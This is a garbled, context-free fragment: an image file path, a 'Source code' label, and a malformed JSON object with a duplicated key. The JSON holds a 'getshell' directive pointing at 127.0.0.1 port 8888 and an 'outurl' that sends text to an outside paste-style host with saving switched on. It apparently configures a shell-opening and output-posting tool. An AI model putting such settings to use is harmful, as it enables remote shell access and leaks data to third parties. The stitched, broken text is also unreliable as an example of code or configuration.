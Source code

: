 {"all":{"getshell":"r t 127.0.0.1 8888~open"},"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}}
